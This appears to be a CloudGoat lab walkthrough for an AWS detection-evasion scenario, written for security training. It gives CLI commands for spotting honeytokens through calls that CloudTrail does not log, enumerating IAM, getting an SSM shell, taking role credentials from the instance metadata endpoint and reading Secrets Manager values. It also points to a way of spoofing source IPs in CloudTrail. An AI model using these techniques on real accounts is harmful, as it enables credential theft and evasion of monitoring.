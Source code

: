 ## Easy Path

1. Iterate through the starting credentials to identify the honeytokens. There are a few ways to do this. Pacu has a
   module for this process, but we reccomend doing it manually in order to understand the process here.

    ```bash
    # There are services which do not log to CloudTrail. Honeytokens almost never grant permissions to ANY services, let alone these services which do not log to CloudTrail. Thus ,the call below will fail for a honeytoken, but will reveal the ARN of the principal associated with the credentials. This information is usually sufficient to infer if the principal is only being used for honeytokens.
    aws --profile cg1 --region us-east-1 sdb list-domains
    # The above command reveals that user1 is "user/canarytokens.com@@kz9r8ouqnhve4zs1yi4bzspzz". These tokens are generated by a third party honeytoken service "canarytokens.com" (as you may have guessed). 
   
    aws --profile cg2 --region us-east-1 sdb list-domains
    # The above command reveals that user2 is "user/SpaceCrab/l_salander". This indicates that the honeytoken was generated by SpaceCrab (a tool which appears to now be outdated).
   
    aws --profile cg3 --region us-east-1 sdb list-domains
    # The above command reveals that user3 is "user/cd1fceca-e751-4c1b-83e4-78d309063830". Although not nearly as suspicious as the first two users, this UUID format indicated that the user is being automatically generated. This UUID format is also used by the SpaceSiren honeytoken tool.   
   
    aws --profile cg4 --region us-east-1 sdb list-domains
    # The above command reveals that user4 has permissions to the sdb service, and is therefore likely a legitimate user.
    ```

2. Now that you have identified which pair of credentials are honeytokens and which are likely legitimate, you can
   perform some enumeration to determine who you are, what group you are a part of, what permissions are assigned to
   that group, what EC2 instances exist, and which one to target in the next step.

    ```bash
    # The command below will reveal the ARN of your current principal. 
    aws --profile cg4 sts get-caller-identity
   
    # The command below will list the groups to which your user belongs.
    aws --profile cg4 iam list-groups-for-user --user-name r_waterhouse
   
    # The command below will list the policies attached to your group.
    aws --profile cg4 iam list-group-policies --group-name cg-developers
   
    # The command below will list out the developer policy in detail. You will see a statement focusing on SSM which includes "ssm:StartSession". This will be used later to get a shell on an EC2 instance.
    aws --profile cg4 iam get-group-policy --group-name cg-developers --policy-name developer_policy
   
    # The command below will reveal that the AWS managed policy "ReadOnlyAccess" is attached to the cg-developers group.
    aws --profile cg4 iam list-attached-group-policies --group-name cg-developers
   
    # The command below will list all EC2 instances, revealing the instance that we will target in this section "easy_path-cg-detection-evasion"
    aws --profile cg4 --region us-east-1 ec2 describe-instances
    ```

3. Use SSM to get a shell on the "easy_path" instance.

For this to work you'll first need to ensure you have the
[ssm plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html)
installed. If it is not installed you may receive a permission error about terminating sessions.

    ```bash
    # The command below will result in a shell on the EC2 instance of your choice. 
    aws --profile cg4 --region us-east-1  ssm start-session --target [INSTANCE_ID]
    ```

5. Determine if there is a role associated with this EC2 instance.

    ```bash
    # The command below will reach out to the IMDS endpoint, and will return the name of an instance profile.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials
   
    # The command below will reach out to the IMDS endpoint, and will return credentials for the role associated with this instance.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[INSTANCE_PROFILE]
    ```


5. Install the AWS CLI, list all secrets, and read the contents of the associated secrets. This step is another
   opportunity to trigger alerts. If you use the credentials associated with this instance from an unknown IP, an alert
   will be triggered. This is why we install the CLI on the EC2 instance and take actions from there.

    ```bash
    # The command below will confirm that the AWS CLI is not installed.
    aws --version
   
    # The command below will install the AWS CLI.
    sudo yum install awscli -y
   
    # The command below will confirm that the AWS CLI is installed.
    aws --version
   
    # The command below will list all secrets in secrets manager. 
    aws --region us-east-1  secretsmanager list-secrets
   
    # The command below will read out the value for the secret associated with this path. 
    aws --region us-east-1  secretsmanager get-secret-value --secret-id [SECRET_ARN]
    ```

## Hard Path

Steps 1-4 are almost identical for the "hard path" of this scenario. The only difference is, on step 3, you will target
the "hard_path-cg-detection-evasion" instance. In this light, we will start the steps for the "hard path" on step 5,
after you have retrieved the credentials from IMDS.

5. Check if the AWS CLI is installed. Realize you have no internet access. Unlike the "easy path", you cannot take
   actions with the CLI from this instance. Yet, like the "easy path", any event logged in CloudTrail, using credentials
   from this instance and from an IP other than that of this EC2 instance, will trigger alerts.

    ```bash
    # The command below will confirm that the AWS CLI is installed. However, attempts to use it will fail. This is because the instance has no access to the public internet. 
    aws --version
   
    # You can run any aws command from this instance to confirm that it will not work.
    aws sts get-caller-identity
    ```

6. There is a way to spoof arbitrary IP addresses in CloudTrail, and you can read about it
   in [this blog post](https://www.hunters.ai/blog/hunters-research-detecting-obfuscated-attacker-ip-in-aws). Instead of
   walking through this entire technique in duplicate here, we have created a public github repo with terraform code
   that will deploy the necessary resources to perform the bypass.

    ```bash
    # Clone the repo that contains the solution.
    git clone https://github.com/RhinoSecurityLabs/cloud_goat_detection_evasion_hard_path_solution.git
   
    # Move into the repo
    cd cloud_goat_detection_evasion_hard_path_solution
   
    # Follow the README.md in this folder
    cat README.md
    ```
7. Once you have deployed the terraform resources mentioned above, you should have a shell on the ec2 instance that was
   created. Run the following on that instance.

    ```bash
    # The command below will list all secrets in secretsmanager.
    aws --region us-east-1 secretsmanager list-secrets
   
    # The command below will
    aws --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```

At this point you have finished the scenario. 